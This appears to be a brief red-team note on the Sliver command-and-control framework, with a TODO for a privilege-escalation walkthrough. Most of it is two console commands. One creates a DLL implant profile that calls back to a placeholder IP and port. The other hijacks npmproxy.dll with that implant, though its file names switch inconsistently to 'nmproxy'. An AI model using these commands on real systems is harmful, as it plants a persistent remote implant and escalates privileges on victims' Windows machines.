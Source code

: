 # Sliver

TODO: Provide a step by step performing privesc with Sliver

```
sliver > profiles new -m <IP>:<PORT> -f shared -o Windows -a x64 -R dlll

sliver > dllhijack --reference-path C:\\Windows\\System32\\npmproxy.dll --reference-file ./nmproxy.dll.orig --profile dlll c:\\tools\\00-Payloads\\nmproxy.dll
```